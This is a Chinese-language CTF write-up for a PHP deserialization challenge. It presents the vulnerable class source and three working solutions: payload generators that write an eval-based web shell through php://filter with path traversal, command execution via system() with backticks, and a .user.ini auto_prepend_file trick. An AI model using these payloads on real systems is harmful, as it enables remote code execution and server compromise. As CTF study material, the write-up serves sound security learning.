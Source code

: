 # \[2020 新春红包题]1

## \[2020 新春红包题]1

## 考点

* PHP代码审计
* 文件上传目录进行拼接，可以使用`/../`截断
* 使用substr或其他类似函数限制文件后缀，可以使用`/.`绕过
* 在shell中，反引号的优先级是高于引号的，所以会先执行反引号中的内容，然后再将执行结果拼接成一个新的命令

## wp

给了源码，和\[EIS 2019]EzPOP类似，反序列化由`__destruct` 入手，从A类开始

```php
class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }
    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);    //array(10) { ["path"]=> int(0) ["dirname"]=> int(1) ["basename"]=> int(2) ["extension"]=> int(3) ["filename"]=> int(4) ["size"]=> int(5) ["mimetype"]=> int(6) ["visibility"]=> int(7) ["timestamp"]=> int(8) ["type"]=> int(9) } 

        // 2.如果是二维数组，进入if，否则直接返回
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
    
    public function getForStorage() {
        // cache是个数组，cleaned也是个数组
        $cleaned = $this->cleanContents($this->cache);
        // 3. 把数组转成json字符串返回
        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();
        // 4.store是B类
        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {    // 1.autosave=false
            $this->save();
        }
    }
}
```

A类的大概逻辑写到了上面的注释中，再看B类

```php
class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        // 使缓存文件名随机
        $cache_filename = $this->options['prefix'] . uniqid() . $name;  // 3.文件名随机化
        if(substr($cache_filename, -strlen('.php')) === '.php') {  // 4.name后四位不能是.php
          die('?');
        }
        return $cache_filename;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
    
    // $this->store->set($this->key, $contents, $this->expire);
    // name是key，value是contents
    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        $expire = $this->getExpireTime($expire); // 1.expire转为int型
        $filename = $this->getCacheKey($name);   // 2.对文件使用uniqid函数重命名，且不能包含.php,这里也是和原题不同的地方

        $dir = dirname($filename);
        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }
        $data = $this->serialize($value);
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }
        // php://filter绕过死亡exit
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return $filename;
        }
        return null;
    }
}
```

本题与\[EIS 2019]EzPOP的区别是，A类中的key后四位不能是`.php` ，并且用`uniqid()`伪随机函数重命名文件。

### 第一种做法

由于文件名是直接使用`.` 拼接的，这样就会造成目录穿越，并且可以在文件末尾可以使用`/.` 绕过后缀限制。

```php
<?php
$filename =  uniqid()."/../uploads/shell.php/.";
$dir = dirname($filename);
echo $dir;
// 624713fa232c2/../uploads/shell.php
```

payload

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = '/../uploads/shell.php/.';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

### 第二种做法

在创建文件后，它执行了`$data = $this->serialize($data)` 这段代码，而serialize函数可以使用system，`$data` 可以使用包含\`\`\`\` 的字符串

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

如果让A的cache为`['`cat /flag > ./flag.php`']` ，B的options\['serialize']为`system` ，那么最后执行的语句就是

```php
system('[["`cat \/flag > .\/flag.php`"],true]');
```

> 在shell中，反引号的优先级是高于引号的，所以会先执行反引号中的内容，然后再将执行结果拼接成一个新的命令

### 第三种做法

与第一种大同小异

先写一个 .user.ini，然后写一个 .jpg 里面带马，使其追加到其他 php 后面作为 php 执行即可

包含shell的图片

```php
$b = new B();
$b->writeTimes = 0;
$b -> options = array('serialize' => "base64_decode", 
                      'data_compress' => false,
                      'prefix' => "php://filter/write=convert.base64-decode/resource=uploads/moyu");

$a = new A($store = $b, $key = "/../../aaaaaa.jpg", $expire = 0);
$a->autosave = false;
$a->cache = array();
$a->complete = base64_encode('qaq'.base64_encode('<?php @eval($_POST["moyu"]);?>'));

echo urlencode(serialize($a));
```

然后上传.user.ini

```php
$b = new B();
$b->writeTimes = 0;
$b -> options = array('serialize' => "base64_decode", 
                      'data_compress' => false,
                      'prefix' => "php://filter/write=convert.base64-decode/resource=uploads/moyu");

$a = new A($store = $b, $key = "/../../.user.ini", $expire = 0);
$a->autosave = false;
$a->cache = array();
$a->complete = base64_encode('qaq'.base64_encode("\nauto_prepend_file=aaaaaa.jpg"));

echo urlencode(serialize($a));
```

## 小结

1. [http://althims.com/2020/01/29/buu-new-year/](http://althims.com/2020/01/29/buu-new-year/)
2. [https://www.zhaoj.in/read-6397.html](https://www.zhaoj.in/read-6397.html)
3. [https://www.anquanke.com/post/id/194036](https://www.anquanke.com/post/id/194036)
